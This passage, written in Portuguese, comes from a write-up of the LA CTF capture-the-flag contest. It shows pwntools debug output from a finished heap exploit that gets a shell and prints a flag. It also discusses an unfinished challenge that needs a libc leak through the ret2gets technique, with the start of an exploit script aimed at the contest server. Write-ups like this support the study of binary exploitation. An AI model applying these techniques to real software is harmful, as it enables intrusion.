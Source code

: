Desse modo obtendo a flag:
```
Choice: $ id
[DEBUG] Sent 0x3 bytes:
    b'id\n'
[DEBUG] Received 0x1e bytes:
    b'uid=1000 gid=1000 groups=1000\n'
uid=1000 gid=1000 groups=1000
[DEBUG] Received 0x63 bytes:
    b'==================\n'
    b'1. Create level\n'
    b'2. Edit level\n'
    b'3. Test level\n'
    b'4. Explore\n'
    b'5. Reset\n'
    b'6. Exit\n'
    b'Choice: '
==================
1. Create level
2. Edit level
3. Test level
4. Explore
5. Reset
6. Exit
Choice: $ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x3d bytes:
    b'lactf{ro9u3_LIk3_No7_R34LlY_RO9U3_H34P_LIK3_nO7_r34llY_H34P}\n'
lactf{ro9u3_LIk3_No7_R34LlY_RO9U3_H34P_LIK3_nO7_r34llY_H34P
```
## pwn/minceraft (não terminado)

Mais um challenge que possui '*ASLR*' e precisamos de um '*infoleak*'.
- Não encontramos nenhum gadget útil para ROP.
- Algumas horas quebrando a cabeça tentando controlar RDI de alguma maneira...
- Finalmente tivemos a idéia de utilizar [ret2gets](https://sashactf.gitbook.io/pwn-notes/pwn/rop-2.34+/ret2gets) para vazar libc.
Confesso que preciso estudar com mais calma a técnica previamente citada, então o writeup desse challenge como fica em 'não terminado', nas minhas férias volto aqui!

```
from pwn import *

context.terminal = ["alacritty", "-e", "bash", "-c"]
#p = process(['./ld-linux-x86-64.so.2', './chall'], env={'LD_LIBRARY_PATH': '.'}, aslr=False)
p = remote('chall.lac.tf', 31137)
context.binary = exe = ELF('./chall')
libc = ELF('./libc.so.6')  # Adjust to target libc

context.log_level = 'debug'

"""
gdb.attach(p, exe='./chall', gdbscript='''
file ./chall
break *0x401388
continue
''')
"""

def send_payload(payload):
    p.sendlineafter(b'2. Multiplayer', b'1')
    p.sendlineafter(b'Enter world name:', payload)
    p.sendlineafter(b'2. Creative', b'1')
```